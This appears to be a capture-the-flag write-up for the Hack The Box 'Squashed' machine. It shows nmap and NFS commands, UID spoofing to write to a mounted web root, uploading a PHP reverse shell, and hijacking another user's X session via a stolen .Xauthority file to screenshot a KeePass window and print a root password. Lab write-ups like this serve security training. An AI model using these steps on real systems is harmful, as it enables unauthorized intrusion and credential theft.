

|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.11.191 |  | [Squashed](https://app.hackthebox.com/machines/Squashed) |  |

---

### Reconnaissance
Perform **Nmap** scan to enumerate ports:

```shell
sudo nmap -sC -sV -vv -Pn -p- -T4 -o full_nmap 10.10.11.191
```

**Results:**

```
PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
---Snipped--- 
80/tcp    open  http     syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Built Better
|_http-server-header: Apache/2.4.41 (Ubuntu)
111/tcp   open  rpcbind  syn-ack ttl 63 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      45767/tcp   mountd
|   100005  1,2,3      48737/udp   mountd
|   100005  1,2,3      55591/udp6  mountd
|   100005  1,2,3      58447/tcp6  mountd
|   100021  1,3,4      39235/tcp6  nlockmgr
|   100021  1,3,4      44796/udp6  nlockmgr
|   100021  1,3,4      45171/udp   nlockmgr
|   100021  1,3,4      46099/tcp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  syn-ack ttl 63 3 (RPC #100227)
45767/tcp open  mountd   syn-ack ttl 63 1-3 (RPC #100005)
46099/tcp open  nlockmgr syn-ack ttl 63 1-4 (RPC #100021)
54201/tcp open  mountd   syn-ack ttl 63 1-3 (RPC #100005)
54511/tcp open  mountd   syn-ack ttl 63 1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From our **nmap** scan, we see that we are working with a **Linux** machine. There seems to be **SSH** running on port 22, a **HTTP web server** running on port 80, as well as **RPC** running on port 111. 

---
### Enumerating NFS Shares
From our Nmap results, I noticed that **NFS** was up and running on the target machine. My first action was to use the `showmount` command to check if there were any mountable shares: 

```
showmount -e 10.10.11.191
```

The results showed that there were 2 shares that were mountable:


We can mount these shares with the following commands:

```
sudo mkdir /mnt/ross
sudo mkdir /mnt/html
sudo mount -t nfs 10.10.11.191:/home/ross /mnt/ross -o nolock
sudo mount -t nfs 10.10.11.191:/var/www/html /mnt/html -o nolock
```

Once mounted, I first explored the **/var/www/html** share. As I suspected, it was the web root directory for the HTTP web server. However, we did not have the necessary permissions to access it. :


I then used the `nfs-ls` nmap script to check the read-write permissions for the share:

```
sudo nmap --script=nfs-ls 10.10.11.191
```

Results:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-14 08:44 +08
Nmap scan report for 10.10.11.191
Host is up (0.041s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
| nfs-ls: Volume /home/ross
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID   GID   SIZE  TIME                 FILENAME
| rwxr-xr-x   1001  1001  4096  2023-01-14T00:41:22  .
| ??????????  ?     ?     ?     ?                    ..
| rwx------   1001  1001  4096  2022-10-21T14:57:01  .cache
| rwx------   1001  1001  4096  2022-10-21T14:57:01  .config
| rwx------   1001  1001  4096  2022-10-21T14:57:01  .local
| rw-------   1001  1001  2475  2022-12-27T15:33:41  .xsession-errors.old
| rwxr-xr-x   1001  1001  4096  2022-10-21T14:57:01  Documents
| rwxr-xr-x   1001  1001  4096  2022-10-21T14:57:01  Music
| rwxr-xr-x   1001  1001  4096  2022-10-21T14:57:01  Pictures
| rwxr-xr-x   1001  1001  4096  2022-10-21T14:57:01  Public
| 
| 
| Volume /var/www/html
|   access: Read NoLookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID   GID  SIZE  TIME                 FILENAME
| rwxr-xr--   2017  33   4096  2022-12-27T15:35:01  .
| ??????????  ?     ?    ?     ?                    ..
| ??????????  ?     ?    ?     ?                    .htaccess
| ??????????  ?     ?    ?     ?                    css
| ??????????  ?     ?    ?     ?                    images
| ??????????  ?     ?    ?     ?                    index.html
| ??????????  ?     ?    ?     ?                    js
|_
2049/tcp open  nfs

Nmap done: 1 IP address (1 host up) scanned in 1.75 seconds
zsh: segmentation fault  sudo nmap --script=nfs-ls 10.10.11.191
```

We see that the user with **UID=2017** actually has full read-write permissions to the /var/www/html directory! 

Hence, if we can create a user with that same UID on our local machine, we can then access the share (web root directory), upload a reverse shell, and trigger it by visiting the HTTP web server to gain an initial foothold into the machine.

---
### Initial Access: Exploiting NFS Permissions

We create a new user on our system with the UID=2017:

```
# Create user with UID = 2017
sudo useradd -u 2017 hacker

# Create password so that we can log in
sudo passwd hacker
```

We then log into the newly created account and see that we can now access the /var/www/html share:


While there was no clear indication on what programming language the web server ran, I decided to try uploading a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell) first, as that was a common language used by web servers:


I then visited http://10.10.11.191/php-reverse-shell.php to trigger the reverse shell script. Sure enough, that gave us a reverse shell into the machine:


We are logged in as the user 'alex'. The user flag can be found in their home directory.

---
### Privilege Escalation: Hijacking GUI Session using .Xauthority File

While exploring the machine, I found a KeePass Database file, **'Passwords.kdbx'**, in another user's (ross) **Documents** directory:


We can also access ross' home directory through the NFS share that we enumerated in the beginning. 

Upon opening the KeePass file in [KeePass](https://keepass.info/), it prompted me for a password. I did some research on cracking Keepass DB files and tried various methods, but ultimately could not crack it.

Moving on, I dug around ross' home directory for a bit, eventually finding an interesting file called **.Xauthority**:


From [here](https://askubuntu.com/questions/300682/what-is-the-xauthority-file) and [here](https://stackoverflow.com/questions/37157097/how-does-x11-authorization-work-mit-magic-cookie/37367518#37367518), it would seem that the .Xauthority file is used to store credentials in cookies used by `xauth` for authentication of X sessions. Once an X session is started, the cookie is used to authenticate connections to that specific display. 

*The X Window System (X11) is a windowing system for bitmap displays, common on Unix-like operating systems.*

On the target machine, if we run the `w` command, we can actually see currently logged in users and what they are doing. We see that the user ross is currently logged in and has a **gnome** session, which is a desktop environment:


ross' display is also labelled as `:0`, which is important to note.

*(From [X11 HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11#screenshots-capturing), we can see various ways on how to exploit X11)*

Firstly, we can use `xdpyinfo` and `xwininfo` to verify that we do not have access to ross' display from alex's account:

```
xdpyinfo -display :0
xwininfo -root -tree -display :0
```

We see errors stating that we are unable to open the display:


However, if we have ross' **.Xauthority** file in our own (alex) home directory, we will be able to authenticate ourselves to ross' display and access it!

From our nmap enumeration earlier, we see that a user with **UID=1001** will be able to access the files in ross' home directory:

```
<snipped>
111/tcp  open  rpcbind
| nfs-ls: Volume /home/ross
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID   GID   SIZE  TIME                 FILENAME
| rwxr-xr-x   1001  1001  4096  2023-01-14T00:41:22  .
| ??????????  ?     ?     ?     ?                    ..
| rwx------   1001  1001  4096  2022-10-21T14:57:01  .cache
| rwx------   1001  1001  4096  2022-10-21T14:57:01  .config
| rwx------   1001  1001  4096  2022-10-21T14:57:01  .local
| rw-------   1001  1001  2475  2022-12-27T15:33:41  .xsession-errors.old
| rwxr-xr-x   1001  1001  4096  2022-10-21T14:57:01  Documents
| rwxr-xr-x   1001  1001  4096  2022-10-21T14:57:01  Music
| rwxr-xr-x   1001  1001  4096  2022-10-21T14:57:01  Pictures
| rwxr-xr-x   1001  1001  4096  2022-10-21T14:57:01  Public
| 
<snipped>
```

This means that if we create a user with that UID, we can download the .Xauthority file onto our local machine, then transfer it over to alex's home directory.

After creating a new user with UID=1001,  I was able to successfully read the .Xauthority file:



I then set up a HTTP server on my local machine and downloaded the .Xauthority file to alex's home directory using `wget`:


An important step to note here is that programs like `xdpyinfo` and `xwininfo` identify the .Xauthority file through the `HOME` environment variable, which we have to create ourselves:

```
export HOME=/home/alex
```


Once done, we should be able to authenticate to ross' display and access it. To test this, let's take a screenshot of the ross' display using the `xwd` command:

```
xwd -root -screen -silent -display :0 > screenshot.xwd
```

As we can see, the command worked without any errors:


An .xwd file is generated by `xwd`.  I then set up a HTTP server on the target, so that I could download over the 'screenshot.xwd' file to my local machine.

Once downloaded, I used the `convert` command to convert the file to an image file:

```
convert screenshot.xwd screenshot.png
```

With that, I could open the image file, which showed the contents of the KeePass database:


We now have the root credentials:

```
root:cah$mei7rai9A
```

With that, we can log into the root account and obtain the root flag:

